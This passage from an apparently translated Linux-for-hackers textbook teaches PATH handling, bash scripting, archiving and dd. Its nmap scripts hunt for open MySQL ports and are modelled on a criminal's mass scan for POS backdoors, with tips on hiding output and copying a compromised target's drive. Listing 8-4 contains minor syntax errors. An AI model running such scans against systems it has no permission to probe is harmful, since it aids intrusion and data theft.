现在，您可以在系统的任何位置执行newhackingtool应用程序，而不必导航到它的目录。bash
shell将在为您的新工具列出的所有目录中查找!

#### *如何不添加PATH变量*

新Linux用户经常犯的一个错误是，以这种方式将一个新目录(如/root/newhackingtool)直接分配给PATH变量:

kali \>PATH=/root/newhackingtool

kali \>echo \$PATH

/root/newhackingtool

如果您使用这个命令，您的PATH变量将只包含/root/newhackingtool目录，而不再包含包含诸如/bin、/sbin等包含关键命令的系统二进制目录。然后，当您使用任何系统命令时，您将收到未找到的错误命令，如下所示，除非您在执行该命令时首先导航到系统二进制目录:

kali \>cd

bash: cd: command not found

记住，您想要追加PATH变量，而不是替换它。如果您有疑问，请在修改变量之前将其内容保存在某个地方。

### 创建用户定义的变量

您可以在Linux中创建自己的自定义用户定义变量，只需为您命名的新变量分配一个值。当您在进行一些更高级的shell脚本编写时，或者发现您经常使用一个您已经厌倦了一遍又一遍地输入的长命令时，这可能很有用。

语法很简单：输入变量的名称，后面跟着赋值符号(=)，然后输入变量的值，如下所示:

kali \>MYNEWVARIABLE="Hacking is the most valuable skill set in the 21st

century"

这就给变量MYNEWVARIABLE分配了一个字符串，要查看该变量中的值，可以使用echo命令和带有变量名的**\$
content**符号，就像我们之前做的那样:

kali \>echo \$MYNEWVARIABLE

Hacking is the most valuable skill set in the 21st century

就像我们的系统环境变量一样，必须导出用户定义的变量才能将其持久化到新的会话中。

如果要删除这个新变量或任何变量，请使用**unset**命令。不过，在删除系统变量之前一定要三思，因为之后系统的操作可能会大不相同。

kali \>unset MYNEWVARIABLE

kali \>echo \$MYNEWVARIABLE

kali \>

如您所见，当您输入unset
MYNEWVARIABLE时，您将删除该变量及其值。如果在同一个变量上使用echo，Linux现在将返回空行。

### 总结

您可能会发现环境变量是外来的，但是值得了解它们。它们控制Linux中工作环境的外观、行为和感觉。您可以通过更改这些变量、导出它们，甚至创建您自己的变量来管理这些变量，使您的环境适合您的需要。在某些情况下，它们可能有助于掩盖您作为黑客的踪迹。

8
-

BASH脚本编程
------------

BASH SCRIPTING

任何有自尊心的黑客都必须能够编写脚本。因此，任何自尊的Linux管理员都必须能够编写脚本。黑客经常需要自动化命令，有时需要多个工具，这可以通过他们自己编写的简短程序最有效地完成。

在本章中，我们构建了几个简单的bash
shell脚本，以帮助您开始编写脚本。随着我们的进展，我们将添加功能和特性，最终构建一个脚本，该脚本能够在一系列IP地址中查找潜在的攻击目标。

要成为一名优秀的黑客，您还需要能够使用一种广泛使用的脚本语言编写脚本，例如Ruby
(Metasploit exploits是用Ruby编写的)、Python(许多黑客工具都是Python脚本)或Perl
(Perl是最好的文本操作脚本语言)。在第17章中，我将简要介绍Python脚本。

### BASH的速成班

shell是用户和操作系统之间的接口，它允许您操作文件和运行命令、实用程序、程序等等。shell的优点是，您可以直接从计算机执行这些任务，而不是通过GUI这样的抽象来执行这些任务，GUI允许您将任务定制为Z
shell、C shell和Bourne Again Shell，也就是更广为人知的**bash**。

由于bash
shell几乎可以在所有Linux和UNIX发行版(包括macOS和Kali)上使用，所以我们将只使用bash
shell。

bash
shell可以运行您通常的命令行可以运行的任何系统命令、实用程序或应用程序，但是它也包含一些自己的内置命令。本章后面的表8-1给出了对驻留在bash
shell中的一些有用命令的引用。

在前面的章节中，您使用了**cd**、**pwd**、**set**和**umask**命令。在本节中，您将使用另外两个命令：**echo**命令(首先在第7章节中使用)和**read**命令(读取数据并将其存储在其他地方)。仅仅学习这两个命令就可以构建一个简单但功能强大的工具。

您将需要一个文本编辑器来创建shell脚本。您可以使用任何您最喜欢的Linux文本编辑器，包括vi、vim、emacs、gedit、kate等等。在这些教程中，我将使用Leafpad，就像在前几章中一样。使用不同的编辑器不会对脚本或其功能造成任何影响。

### 你的第一个脚本:“HELLO, HACKERS-ARISE!”

对于您的第一个脚本，我们将从一个简单的程序开始，该程序将向屏幕返回一条消息，该消息说:“你好，黑客——站起来!”打开文本编辑器，开始吧。

首先，您需要告诉您的操作系统您想为脚本使用哪个解释器。为此，输入一个开头标识符，它是哈希符号和感叹号的组合，如下所示:

\#!

然后按照指示的 (\#!/bin/bash)操作系统使用bash
shell解释器。正如您将在后面的章节中看到的，您还可以使用标识符(\#!)来使用其他解释器，如Perl或Python。在这里，您希望使用bash解释器，因此输入以下内容:

\#! /bin/bash

接下来，输入**echo**命令，它告诉系统简单地将命令后面的内容重复(或回显)到监视器。

在这种情况下，我们希望系统向我们回送“Hello,
Hackers-Arise！”如清单8-1所示。注意，要回显的文本或消息必须使用双引号。

\#! /bin/bash

\# This is my first bash script. Wish me luck.

echo "Hello, Hackers­Arise!"

*清单8-1: “Hello, Hackers­Arise！”脚本*

在这里，您还可以看到前面有一行散列标记(\#)。这是一个注释，是您留给自己或任何阅读代码的人来解释您在脚本中所做的事情的注释。程序员在每种编码语言中都使用注释。这些注释不是由解释器读取或执行的，因此您不必担心代码混乱。它们只对人类可见。bash
shell知道，如果一行以\#字符开头，那么它就是一个注释。

现在，将该文件保存为HelloHackersArise，不带扩展名，并退出文本编辑器。

#### *设置执行权限*

默认情况下，新创建的bash脚本甚至您(所有者)也无法执行。让我们在命令行中查看新文件的权限，方法是使用**cd**移动到目录中，然后输入**ls
-l**。它应该是这样的:

kali \>ls -l

­­snip­­

­rw­r­­r­­ 1 root root 42 Oct 22 14:32 HelloHackersArise

­­snip­­

如您所见，我们的新文件具有**rw-r--r--**(644)权限。正如您在第5章中学到的，这意味着这个文件的所有者只有读(**r**)和写(**w**)权限，而没有执行(**x**)权限。组和所有其他用户只有读权限。为了运行这个脚本，我们需要给其执行权限。我们使用chmod命令更改权限，如第5章所示。要授予所有者、组和所有其他执行权限，请输入以下命令:

kali \>chmod 755 HelloHackersArise

现在，当我们对文件以长列表形式列出时，像这样，我们可以看到我们有执行权限:

kali \>ls -l

­­snip­­

­rwx r­x r­x 1 root root 42 Oct 22 14:32 HelloHackersArise

­­snip­­

脚本现在可以执行了！

#### *运行HelloHackersArise*

要运行我们的简单脚本，输入以下命令:

kali \>./HelloHackersArise

文件名前的**./**告诉系统我们希望在HelloHackersArise所在的当前目录文件中执行此脚本。它还告诉系统，如果在另一个名为hellohackersrise的目录中有另一个文件，请忽略它，只在当前目录中运行hellohackersrise。在您的系统上似乎不太可能有另一个具有此名称的文件，但是在执行文件时使用**./**是一个很好的实践，因为这会将文件执行定位到当前目录，并且许多目录将具有重复的文件名，例如start和setup。

当我们按下回车ENTER时，我们非常简单的脚本将我们的消息返回给监视器:

Hello, Hackers­Arise!

恭喜成功！您刚刚完成了第一个shell脚本!

#### *添加带有变量和用户输入的功能*

现在我们有了一个简单的脚本。它所做的只是将消息回显到标准输出。如果希望创建更高级的脚本，可能需要添加一些变量。

变量是一个可以在内存中存储某些东西的存储区域。“某物”可能是一些字母或单词(字符串)或数字。它被称为变量，因为其中包含的值是可变的，这对于向脚本中添加功能非常有用。

在下一个脚本中，我们将添加一些功能来提示用户输入他们的名字，将他们输入的任何内容放入一个变量中，然后提示用户输入他们在这本书中的章节，并将键盘输入放入一个变量中。在此之后，我们将向用户回显一条包含其姓名和章节的欢迎消息。

在文本编辑器中打开一个新文件，并输入清单8-2所示的脚本。

➊ \#! /bin/bash

➋ \# This is your second bash script. In this one, you prompt /

\# the user for input, place the input in a variable, and /

\# display the variable contents in a string.

➌ echo "What is your name?"

read name

➍ echo "What chapter are you on in Linux Basics for Hackers?"

read chapter

➎ echo "Welcome" \$name "to Chapter" \$chapter "of Linux Basics for Hackers!"

*清单8-2:使用变量的简单脚本*

我们从\#!/bin/bash开始，告诉系统要使用这个脚本➊bash解释器。然后添加一个注释描述脚本➋及其功能。之后,我们提示用户输入他们的名字，➌问解释器我们的名字，读取输入并将其转换成一个变量**name**。然后我们提示用户输入他们目前正在这本书中的所在章节，➍我们再次读取键盘输入一个变量，这个章节叫**chapter**。

在最后一行中，我们构造一个输出字符串，➎欢迎读者（他们的名字）在此书的所在章节。我们使用echo命令，并用双引号提供要在屏幕上显示的文本。然后，为了填写用户输入的名称和章号，我们将变量添加到消息中应该出现的位置。如第7章所述，要使用变量中包含的值，必须在变量名前面加上\$符号。

将此文件保存为WelcomeScript.sh文件。其中**.sh**扩展名是脚本文件的约定。您可能已经注意到，我们没有包含前面的扩展名，这并不是严格要求的，如果您关闭扩展名，该文件将默认保存为shell脚本文件。

现在，让我们运行这个脚本。不要忘记先用**chmod**给其执行权限，否则，操作系统会用权限拒绝的消息（Permission
denied）斥责你的。

kali \>./WelcomeScript.sh

What is your name?

OccupytheWeb

What chapter are you on in Linux Basics for Hackers?

8

Welcome OccupytheWeb to chapter 8 of Linux Basics for Hackers!

如您所见，您的脚本从用户那里获取输入，将其放入变量中，然后使用这些输入为用户发出问候语。

这是一个简单的脚本，但它教你如何使用变量并从键盘输入。这些都是脚本中的关键概念，您将来需要在更复杂的脚本中使用它们。

### 您的第一个黑客脚本:扫描打开的端口

现在您已经掌握了一些基本的脚本编写技巧，接下来让我们来学习一些更高级的脚本编写技巧，它们具有实际应用的黑客应用程序。我们将使用黑帽子黑客世界的一个例子。“黑帽子黑客”指的是那些怀有恶意的黑客，比如盗取信用卡号码或篡改网站。白帽黑客是那些有良好意图的人，比如帮助软件开发人员或系统管理员使他们的系统更加安全。“灰帽黑客”是那些倾向于在这两个极端之间游走的人。

在继续之前，您需要熟悉一个名为**nmap**的简单但必要的工具，该工具默认安装在Kali上。您可能听说过**nmap**这个名称，它用于探测一个系统，以查看它是否连接到网络，并查明哪些端口是打开的。通过发现的开放端口，您可以推测在目标系统上运行哪些服务。这对于任何黑客或系统管理员来说都是一项至关重要的技能。

最简单的形式是，运行nmap扫描的语法如下所示:

nmap \<type of scan\> \<target IP\> \<optionally, target port\>

这不太困难。最简单、最可靠的nmap扫描是TCP
connect扫描，在nmap中使用**-sT**参数选项进行指定。因此，如果想用TCP扫描IP地址192.168.181.1，可以输入以下命令:

nmap -sT 192.168.181.1

更进一步，如果您想对地址192.168.181.1执行TCP扫描，查看端口3306
(MySQL的默认端口)是否打开，您可以输入以下命令:

nmap -sT 192.168.181.1 -p 3306

这里，**-p**指定要扫描的端口。现在就在您的Kali系统上尝试它吧。

#### *我们的任务*

在撰写本书时，有一名黑客在美国联邦监狱服刑时间名为Max
Butler，在整个黑客世界中也被称为Max
Vision。Max是一个灰帽子黑客。白天，他是硅谷的IT安全专业人员，到了晚上，他在黑市上偷窃和销售信用卡号码。有一段时间，他经营着全球最大的信用卡黑市CardersMarket。现在，Max正在服刑13年，同时协助匹兹堡的计算机应急响应小组（CERT）防御黑客。

在Max被抓住的几年前，他意识到许多小餐馆使用的Aloha销售点（POS）系统都内置了技术支持后门。在这种情况下，后门启用了技术支持来帮助他们的客户。Aloha技术支持可以通过端口5505访问最终用户的系统，以在用户寻求帮助时提供帮助。Max意识到，如果他发现一个系统通过Aloha
POS系统连接到互联网，他可以通过端口5505访问具有sysadmin权限的系统。Max可以进入许多这样的系统并窃取数以万计的信用卡号码。

最终，Max想要找到每个有5505端口打开的系统，这样他就可以从窃取数千个信用卡号码变成窃取数百万个。Max决定编写一个脚本，扫描数百万个IP地址，寻找端口5505打开的系统。当然，大多数系统端口5505没有打开，所以，如果它们被打开了，很可能它们正在运行注定的Aloha
POS。他可以在白天工作时运行这个脚本，然后在夜间入侵那些被识别为打开端口5505的系统。

我们的任务是编写一个与Max的脚本几乎相同的脚本，但不是像Max那样扫描端口5505，我们的脚本将扫描连接到无处不在的在线数据库MySQL的系统。MySQL是一个在数百万个网站背后使用的开源数据库(现在MySQL属于Oracle旗下，但依然保留有社区版，原开源分支变为MariaDB)，我们将在第12章中使用MySQL。默认情况下，MySQL使用端口3306。数据库是几乎每个黑帽子黑客都在寻找的“金羊毛”，因为它们经常包含在黑市上非常有价值的信用卡号和个人身份信息（PII）。

#### *一个简单的扫描器*

在编写在互联网上扫描公共ip的脚本之前，让我们先完成一个小得多的任务。让我们先编写一个脚本，以扫描局域网上的端口3306，而不是扫描全球，以查看脚本是否实际工作。如果有，我们可以很容易地编辑它来完成更大的任务。

在文本编辑器中，输入清单8-3所示的脚本。

➊ \#! /bin/bash

➋ \# This script is designed to find hosts with MySQL installed

nmap ➌­sT 192.168.181.0/24 ➍­p 3306 ➎\>/dev/null ➏­oG MySQLscan

➐ cat MySQLscan \| grep open \> MySQLscan2 ➑

cat MySQLscan2

*清单8-3:简化的扫描程序脚本*

➊我们使用标识符\#！开始。➋让我们遵循这个注释来解释脚本的用途。

现在，让我们使用➌nmap命令TCP扫描局域网，寻找端口3306➍。(请注意，您的IP地址在您的终端中可能不同，请使用Linux上的ifconfig命令或Windows上的ipconfig命令来确定您的IP地址。)
为了保持隐秘，我们还发送通常会出现在屏幕上的标准nmap输出到Linux的一个特殊的地方➎，一个特殊的地方在Linux中消失。我们在本地机器上做这个，所以这并不重要，但如果要远程使用脚本，则需要隐藏nmap输出。然后，我们将扫描的输出发送到一个名为MySQLscan的文件➏，格式为grep格式，这意味着grep可以处理的格式。

下一行显示我们存储输出的MySQLscan文件，➐然后输出到grep的管道，以过滤包含关键字open（端口开放）的所在行。然后我们把这些字符行放到一个命名为MySQLscan2的文件中➑。

最后，显示文件MySQLscan2的内容。此最终文件应仅包含nmap的输出行，其中包含端口3306打开的主机。将此文件另存为MySQLscanner.sh并使用chmod
755为自己赋予执行权限。

执行脚本，如下所示：

kali \>./MySQLscanner.sh

host: 192.168.181.69 () Ports: 3306/open/tcp//mysql///

我们可以看到，这个脚本能够识别局域网内运行MySQL的唯一的IP地址。当然，您的结果可能会有所不同，具体取决于是否有任何端口在本地网络上运行MySQL服务。

#### *改进MySQL扫描器*

现在，我们希望修改这个脚本，使其不仅适用于您自己的本地网络。如果该脚本能够提示用户想要扫描的IP地址范围和要查找的端口，然后使用该输入，那么该脚本将更容易使用。请记住，您在此章节前一小节页的“添加带有变量和用户输入处理功能”中学习了如何提示用户并将其键盘输入内容输入到变量中。

让我们看看如何使用变量使这个脚本更加灵活和高效。

##### 在黑客脚本中添加提示和变量

在文本编辑器中，输入清单8-4所示的脚本（或直接创建*MySQLscannerAdvanced*文件并打开输入以下内容）。

\#! /bin/bash

➊ echo "Enter the starting IP address : "

➋ read FirstIP

➌ echo "Enter the last octet of the last IP address : " read LastOctetIP

➍ echo "Enter the port number you want to scan for : " read port

➎ nmap ­sT \$FirstIP­\$LastOctetIP ­p \$port \>/dev/null ­oG MySQLscan

➏ cat MySQLscan \| grep open \> MySQLscan2

➐ cat MySQLscan2

*清单8-4:高级MySQL端口扫描器*

我们需要做的第一件事是用IP地址范围替换指定的子网。我们将创建一个名为**FirstIP**的变量和另一个名为**LastOctetIP**的变量来创建这个范围，并为端口号创建一个名为**port**的变量(最后一个八位体是IP地址中第三段（以**.**分割的IP）之后的最后一组数字。在IP地址192.168.1.101中，最后一个字节是101)。

我们还需要提示用户输入这些值。我们可以使用清单8-1中使用的echo命令来实现这一点。

**FirstIP**变量的值，对应“Enter the starting IP address ：”
➊，向用户询问他们想扫描第一个IP地址。在屏幕上看到这个提示时，用户将输入第一个IP地址，因此我们需要从用户那里获取该输入。

➋我们可以读取命令后跟变量的名称我们想在存储输入。这个命令将把用户输入的IP地址放入变量**FirstIP**中。然后我们可以在整个脚本中使用**FirstIP**中的值。

我们将做同样的为变量**LastOctetIP**➌和**port**➍通过提示用户输入信息，然后使用一个读命令来捕获它。

接下来，我们需要在脚本中编辑nmap命令，以使用刚刚创建和填充的变量。要使用存储在变量中的值，只需在变量名前面加上**\$**，例如在**\$port**中。所以，➎我们扫描一系列IP地址，从用户输入第一个IP到用户输入第二个IP开始，并查找用户输入的特定端口。我们使用变量代替子网来扫描，使用端口来决定扫描什么。重定向符号（**\>**）告诉标准的nmap输出(通常显示在屏幕上)转到**/dev/null**
(/dev/null只是一个发送输出的地方，以便它消失)。然后，我们将输出以grep标准格式发送到名为MySQLscan的文件。

下一行与我们的简单扫描器中相同：它输出MySQLscan文件的内容，将其传输到grep，在那里对包含关键字的行进行筛选过滤，然后将该输出发送到名为MySQLscan2的新文件➏。最后，我们打印展示MySQLscan2文件内容➐。

如果一切正常，此脚本将扫描从第一个输入地址到最后一个输入的IP地址，搜索输入端口，然后仅使用指定端口打开的IP地址进行报告。将脚本文件保存为*MySQLscannerAdvanced*，记住要给其执行权限。

##### 一个运行示例

现在我们可以使用变量来运行我们的简单扫描程序脚本，这些变量确定要扫描的IP地址范围和端口，而不必在每次要运行扫描时编辑脚本：

kali \>./MySQLscannerAdvanced.sh Enter the starting IP address : 192.168.181.0

Enter the last IP address :

192.168.181.255

Enter the port number you want to scan for :

3306

Host: 192.168.181.254 ()Ports:3306/open/tcp//mysql//

脚本提示用户输入第一个IP地址、最后一个IP地址，然后输入要扫描的端口。在收集这些信息之后，脚本执行nmap扫描，并生成具有指定端口的范围内所有IP地址的报告。正如您所看到的，即使是最简单的脚本也可以创建强大的工具。在第17章中，您将学习更多关于脚本的知识。

### 常用内置BASH命令

如前所述，表8-1提供了bash中内置的一些有用命令的列表。

表8-1:内置Bash命令

| **命令功能** |                                    |
|--------------|------------------------------------|
| ：           | 返回0或**true**                    |
| .            | 执行shell脚本                      |
| b            | 将作业放在后台                     |
| break        | 退出当前循环                       |
| cd           | 改变目录                           |
| continue     | 执行当前循环                       |
| echo         | 显示命令参数                       |
| eval         | 计算以下表达式                     |
| exec         | 在不创建新进程的情况下执行以下命令 |
| exit         | 退出shell                          |
| export       | 使变量或函数对其他程序可用         |
| fg           | 将工作放在前台                     |
| getopts      | 解析shell脚本的参数                |
| jobs         | 列出后台(bg)执行的工作             |
| Pwd          | 显示当前目录                       |
| Read         | 从标准输入读取一行                 |
| Readonly     | 将变量声明为只读                   |
| set          | 列出所有变量                       |
| shift        | 将参数向左移动                     |
| test         | 评估参数                           |
| [            | 执行条件测试                       |
| times        | 打印用户和系统时间                 |
| trap         | 追踪一个信号                       |
| type         | 显示如何将每个参数解释为一个命令   |
| umask        | 更改新文件的默认权限               |
| unset        | 从变量或函数中删除值               |
| wait         | 等待后台进程完成                   |

### 总结

脚本是任何黑客或系统管理员的基本技能。它使您能够通常需要花费几个小时的任务变得自动化，并且一旦保存为脚本，就可以反复使用它。Bash脚本是脚本的最基本形式，在第17章中，您将使用更多的功能进一步学习Python脚本。

9
-

压缩和归档
----------

COMPRESSING AND ARCHIVING

黑客经常需要下载和安装新软件，以及发送和下载多个脚本和大文件。如果将这些文件压缩并合并到单个文件中，那么这些任务就更容易完成。如果您来自Windows世界，您可能会从**.zip**格式中认识到这个概念，该格式组合和压缩文件，使其更小，以便通过互联网或可移动媒体传输。在Linux中有很多方法可以做到这一点，在本章中我们将介绍一些最常用的工具。我们还将查看**dd**命令，它允许您复制整个驱动器，包括这些驱动器上的已删除文件。

### 压缩是什么?

压缩这个有趣的主题本身就可以填满一整本书，但是对于这本书，我们只需要对这个过程有一个基本的了解。顾名思义，压缩使数据更小，因此需要更少的存储容量，使数据更容易传输。对于初学者来说，将压缩分类为有损或无损就足够了。

有损压缩在减小文件大小方面非常有效，但是会丢失信息的完整性。换句话说，压缩后的文件与原始文件并不完全相同。这种类型的压缩用于较大的图形，视频和音频文件，其中一些小的差异在文件中很难察觉
.mp3、.mp4、.png和.jpg都是有损压缩算法。如果.png文件中的一个像素或.mp3文件中的一个音符发生了变化，你的眼睛或耳朵不太可能注意到其中的差别——当然，音乐爱好者会说他们肯定能分辨出.mp3和未压缩的.flac文件之间的差别。有损压缩的优点是它的效率和有效性。压缩比是非常高，这意味着生成的文件比原始文件小得多。

然而，当您发送文件或软件时，有损压缩是不可接受的，而数据完整性是至关重要的。例如，如果您正在发送脚本或文档，那么在解压缩原始文件时，它的完整性必须保持。本章主要讨论这种无损压缩类型，它可以从许多实用程序和算法中获得。不幸的是，无损压缩并不像您想象的那样有效，但是对于黑客来说，完整性通常比压缩比重要得多。

### 将文件存档在一起

通常，压缩文件时要做的第一件事是将它们合并到归档文件中。在大多数情况下，在归档文件时，您将使用**tar**命令。Tar是磁带存档的缩写，指的是系统使用磁带存储数据的史前计算时代。tar命令从许多文件创建一个文件，然后将其称为归档文件、tar文件或tar包。

例如，假设您有三个脚本文件，与我们在第8章节中使用的脚本文件类似，分别名为hackersarise1、hackersarise2和hackersarise3。如果您切换到保存它们的目录并执行以长列表格式列出查看，您可以清楚地看到文件和您期望的详细信息，包括文件的大小，如下所示:

kali \>ls -l

­rwxr­xr­x 1 root root 22311 Nov 27 2018 13:00 hackersarise1.sh

­rwxr­xr­x 1 root root 8791 Nov 27 2018 13:00 hackersarise2.sh

­rwxr­xr­x 1 root root 3992 Nov 27 2018 13:00 hackersarise3.sh

假设您希望将所有这三个文件发送给与您一起工作的另一个黑客。您可以使用清单9-1中的命令组合它们并创建一个归档文件。

kali \>tar -cvf HackersArise.tar hackersarise1 hackersarise2 hackersarise3

hackersarise1

hackersarise2

hackersarise3

*清单9-1:创建一个包含三个文件的tar包*

让我们分解这个命令以更好地理解它。归档命令是**tar**，我们在这里使用它有三个参数选项。**c**选项表示创建，**v**(代表详细过程，是可选的)列出tar正在处理的文件，**f**表示写入以下一个文件。最后一个选项也适用于从文件中读取。然后，我们为新归档文件提供您希望从这三个脚本来创建的文件名:HackersArise.tar。

总之，这个命令将获取所有三个文件，并创建一个完整的单独新文件HackersArise.tar。当您对此目录执行以长列表格式列出所有文件时，您将看到它还包含了新的.tar文件，如下所示:

kali \>ls -l

­­snip­­

­rw­r­­r­­ 1 root root 40960 Nov 27 2018 13:32 HackersArise.tar

­­snip­­

kali \>

注意这里tar包的大小：40,960字节。在归档这三个文件时，tar使用了大量的开销来执行此操作：在归档之前，这三个文件的总和是35094字节，而在归档之后，tar包已经增长到了40960字节。换句话说，归档过程增加了5000多个字节。尽管这种开销对于小文件来说非常重要，但是对于越来越大的文件来说就变得越来越不重要了。

我们可以使用**tar**命令和**-t**内容列表参数从tar包中显示这些文件，而不需要提取它们，如下所示:

kali \>tar -tvf HackersArise.tar

­rwxr­xr­x 1 root root 22311 Nov 27 2018 13:00 hackersarise1.sh

­rwxr­xr­x 1 root root 8791 Nov 27 2018 13:00 hackersarise2.sh

­rwxr­xr­x 1 root root 3992 Nov 27 2018 13:00 hackersarise3.sh

在这里，我们看到三个原始文件和它们的原始大小。然后您可以使用**tar**命令和**-x**
(extract)选项从tar包中提取这些文件，如下所示:

kali \>tar -xvf HackersArise.tar

hackersarise1.sh

hackersarise2.sh

hackersarise3.sh

因为您仍然在使用**-v**参数，所以这个命令将显示在输出中提取哪些文件。如果您想提取文件并“静默”地这样做，这意味着不显示任何输出，您可以简单地删除**-v**(详细)选项，如下所示:

kali \>tar -xf HackersArise.tar

这些文件已经被提取到当前目录下，您可以在目录下以长列表格式列出，来进行双重检查。请注意，默认情况下，如果提取的文件已经存在，tar将删除现有文件，并用提取的文件替换它。

### 压缩文件

现在我们有一个归档文件，但是这个文件比原始文件的总和还要大。如果您想压缩这些文件以方便传输，该怎么办?Linux有几个命令可以创建压缩文件。我们来看看这些:

-   **gzip**，它使用扩展名*.tar.gz*或*.tgz*

-   **bzip2**，它使用扩展名*.tar.bz2*

-   **compress**，它使用扩展名*.tar.z*

这些都可以压缩我们的文件，但它们使用不同的压缩算法和不同的压缩比。因此，我们将看看每一种方式以及它的能力。

通常，**compress**是最快的，但是生成的文件是更大的；**bzip2**是最慢的，但是生成的文件是最小的；**gzip**介于两者之间。作为一个初出乍到的黑客，您应该了解这三种方法的主要原因是，在访问其他工具时，您将遇到各种类型的压缩。因此，本节将向您展示如何处理压缩的主要方法。

#### *用gzip压缩*

让我们先试试**gzip** (GNU
zip)，因为它是Linux中最常用的压缩实用程序。您可以通过输入以下命令来压缩HackersArise.tar文件(确保您位于保存存档文件的目录中):

kali \>gzip HackersArise.\*

注意，我们对文件扩展名使用了通配符**\***，这告诉Linux该命令应该应用于任何以任何文件扩展名结尾的文件。在下面的例子中，您将使用类似的符号。当我们对目录执行长列表格式查看时，我们可以看到HackersArise.tar已经被HackersArise.tar.gz所取代。文件大小已经压缩到3299字节!

kali \>ls -l

­­snip­­

­rw­r­­r­­ 1 root root 3299 Nov 27 2018 13:32 HackersArise.tar.gz

­­snip­­

然后，我们可以使用**gunzip**命令(GNU unzip的缩写)解压缩该文件。

kali \>gunzip HackersArise.\*

解压后，文件不再使用.tar.gz扩展名保存，而是使用.tar扩展名保存。另外，请注意，它已经返回到原来的大小40,960字节。试着以长列表格式列出来确认这一点。值得注意的是，gzip还可以用于提取.zip文件。

#### *用bzip2压缩*

Linux中另一个广泛使用的压缩实用程序是**bzip2**，它的工作原理类似于**gzip**，但是具有更好的压缩比，这意味着生成的文件将更小。您可以通过输入以下命令来压缩HackersArise.tar文件:

kali \>bzip2 HackersArise.\*

当你以长列表格式列出文件，您可以看到bzip2将文件压缩到了2,081字节！还要注意，文件扩展名现在是*.tar.bz2*。

要解压压缩的文件，使用**bunzip2**，如下所示:

kali \>bunzip2 HackersArise.\*

kali \>

当您这样做时，文件将返回其原始大小，其文件扩展名将返回.tar。

#### *用compress压缩*

最后，可以使用命令**compress**压缩文件。这可能是最不常用的压缩实用程序，但是很容易记住。要使用它，只需输入命令**compress**和文件名，如下:

kali \>compress HackersArise.\*

kali \>ls -l

­­snip­­

­rw­r­­r­­ 1 root root 5476 Nov 27 2018 13:32 HackersArise.tar.Z

注意，**compress**实用程序将文件的大小减少到5,476字节，是**bzip2**的两倍多。还要注意，文件扩展名现在是*.tar.Z*(大写)。

若要解压同一文件，请使用uncompress:

kali \>uncompress HackersArise.\*

还可以对使用**compress**压缩的文件使用**gunzip**命令。

### 创建存储设备的逐位或物理副本

在信息安全和黑客的世界里，一个Linux归档命令在实用性方面胜过其他命令。**dd**命令逐个比特位复制文件、文件系统，甚至整个硬盘驱动器。这意味着即使删除的文件也会被复制(是的，重要的是要知道您删除的文件可能是可恢复的)，以便于发现和恢复。大多数逻辑复制实用程序(如**cp**)不会复制已删除的文件。

一旦黑客拥有目标系统，**dd**命令将允许他们将整个硬盘驱动器或存储设备复制到他们的系统。此外，那些想要抓住黑客的人
- 即调查调查人员 -
可能会使用此命令来制作硬盘驱动器的物理副本，其中包含已删除的文件和其他可能有助于查找针对黑客证据的构件。

需要注意的是，**dd**命令不应该用于典型的文件和存储设备的日常复制，因为它非常慢，其他命令执行起来更快、更有效。但是，当您需要一个没有文件系统或其他逻辑结构的存储设备的副本时(例如在取证调查中)，它是非常好的。

**dd**命令的基本语法如下:

dd if=inputfile of=outputfile

因此，如果您想为您的闪存驱动器创建一个物理副本，假设闪存驱动器是sdb(我们将在第10章中详细讨论这个名称)，您将输入以下内容:

kali \>dd if=/dev/sdb of=/root/flashcopy

1257441=0 records in

1257440+0 records out

7643809280 bytes (7.6 GB) copied, 1220.729 s, 5.2 MB/s

让我们分解这个命令：**dd**是指定输入文件的物理“复制”命令，**/dev/sdb**表示指定输出文件的/dev目录下的闪存驱动器，/root/flashcopy是要将物理副本复制到的文件的名称。(有关/dev目录中驱动器的Linux系统指定的更完整说明，请参见第10章节)。

**dd命**令可以使用许多参数选项，您可以对这些选项进行一些研究，但其中最有用的是**noerror**选项和**bs**(块大小)选项。顾名思义，即使遇到错误，**noerror**选项也会继续复制。**bs**选项允许您确定要复制的数据的块大小(每个块的读/写字节数)。默认情况下，它被设置为512字节，但是可以更改它以加快进度。通常，这将设置为设备的扇区大小，通常为4KB(4096字节)。有了这些选项，您的命令将如下所示:

kali \>dd if=/dev/media of=/root/flashcopy bs=4096 conv:noerror

正如前面提到的，值得您自己多做一些研究，但是这是对该命令及其常见用法的一个很好的介绍。

### 总结

Linux有许多命令可以让您组合和压缩文件，以便更容易地进行传输。对于组合文件，**tar**是首选命令，并且您至少有三个实用程序可以使用不同的压缩比压缩文件——gzip、bzip2和compression。**dd**命令超越了这个范围。它使您能够在没有文件系统等逻辑结构的情况下对存储设备进行物理复制，允许您恢复已删除的文件等工件。

10
--

文件系统和存储设备管理
----------------------

FILESYSTEM AND STORAGE DEVICE MANAGEMENT

如果您来自Windows环境，那么Linux表示和管理存储设备的方式在您看来将非常不同。您已经看到，文件系统没有驱动器的物理表示形式，就像Windows中的C:、D:或E:系统一样，而是有一个文件树结构，其顶部或根目录是/。本章将介绍Linux如何表示存储设备，如硬盘驱动器、闪存驱动器和其他存储设备。

我们首先查看附加的驱动器和其他存储设备是如何挂载在文件系统上的，然后是/(根)目录。在这个上下文中挂载仅仅意味着将驱动器或磁盘附加到文件系统，使操作系统能够访问它们。对于黑客来说，有必要了解文件和存储设备管理系统，包括您自己的系统和目标系统。黑客通常使用外部媒介来加载数据、黑客工具，甚至他们的操作系统。在目标系统上之后，您需要了解正在处理的文件、在何处查找机密文件或其他关键文件、如何将驱动器挂载到目标系统，是否以及在何处可以将这些文件放在系统上。本章将介绍所有这些主题，以及如何管理和监视存储设备。

我们从名为/dev的目录开始，您可能已经在目录结构中注意到了：dev是device的缩写，Linux中的每个设备都由/dev目录中的文件表示。让我们从与/dev开始一起工作。

### 设备目录/DEV

Linux有一个特殊的目录，其中包含代表每个附加设备的文件：适当命名的/dev目录。作为第一个介绍，导航到/dev目录，然后在其上执行长列表格式查看。您应该看到类似清单10
- 1的内容。

kali \>cd /dev kali \>ls -l total 0

crw­­­­­­­ 1 root root 10,175 May 16 12:44 agpgart

crw­­­­­­­ 1 root root 10,235 May 16 12:44 autofs

drwxr­xr­x 1 root root 160 May 16 12:44 block

­­snip­­

lrwxrwxrwx 1 root root 3 May 16 12:44 cdrom ­\> sr0

­­snip­­

drwxr­xr­x 2 root root 60 May 16 12:44 cpu

­­snip­­

*清单10-1:/dev目录的内容*

